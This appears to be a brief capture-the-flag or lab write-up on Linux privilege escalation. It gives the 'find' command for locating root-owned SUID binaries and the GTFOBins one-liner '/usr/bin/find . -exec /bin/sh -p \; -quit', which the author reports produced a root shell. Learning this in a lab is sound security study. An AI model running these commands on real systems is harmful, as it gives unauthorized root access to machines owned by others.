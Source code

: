 #### -Ran the following command to search for SUID files as I was unable to upload privilege escalation scripts:

"find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null"

#### -Found the following when running the above command searching for SUID files:

![](../Pasted%20Images/Pasted%20image%2020220530131113.png)

#### -Found "find" bin in the GTFOBINS website and found the following command to run when "find" is running as SUID:

![](../Pasted%20Images/Pasted%20image%2020220530131140.png)

#FindSUIDprivilegeEscalation

#### -Typed "/usr/bin/find . -exec /bin/sh -p \; -quit" and got a root shell:

![](../Pasted%20Images/Pasted%20image%2020220530131219.png)